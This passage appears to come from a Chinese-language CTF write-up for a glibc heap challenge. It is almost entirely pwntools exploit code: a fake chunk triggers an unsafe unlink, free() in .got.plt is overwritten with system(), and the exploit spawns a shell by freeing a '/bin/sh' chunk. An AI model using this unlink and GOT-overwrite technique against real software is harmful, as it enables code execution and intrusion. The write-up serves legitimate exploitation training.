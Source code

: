 ```python
io.recv()
io.sendline(b'CoLin')

create(0x420, 0, b'flag')
create(0x420, 1, b'flag')
delete(1)
delete(0)

payload = p64(0)		# fake chunk prev_size
payload += p64(0x420)	# fake chunk size
payload += p64(chunk_addr_bss - 0x18)	# fake chunk fd
payload += p64(chunk_addr_bss - 0x10)	# fake chunk_bk
payload += b'\x00' * 0x400	# useless filling data

payload += p64(0x420)	# front chunk prev_size (modified)
payload += p64(0x420)	# front size (modified)
payload += b'\x00' * 0x410	# useless filling data for front chunk

payload += p64(0x420)	# fake front-front chunk prev_size 
payload += p64(0x21)	# fake front-front chunk size with prev_inuse = true
create(0x860, 0, payload)

delete(1)				# trigger unlink_chunk(av, p)

# now the address of chunk_0 (0x6020e0) has been changed into 0x6020c8, we can edit the next chunk into .got.plt

payload = b'\x00' * 0x18	# useless data for filling
payload += p64(0x6020c8)	# chunk_0 address
payload += p64(1)			# chunk_0 inuse
payload += p64(0x602018)	# change the chunk_1 to .got.plt of free()
payload += p64(1)			# change chunk_1 into inuse

edit(0, payload)

edit(1, p64(mem_sys_addr))		# change the address, now free() equals system()

create(0x20, 2, b'/bin/sh')
delete(2)

io.interactive()
```

以上就是适用于目前最新版本libc的两种解题方案。如果版本比较老还可以考虑使用fastbin的double_free，但是考虑到目前比赛使用的glibc版本越来越高，这里只分析这两种方法。
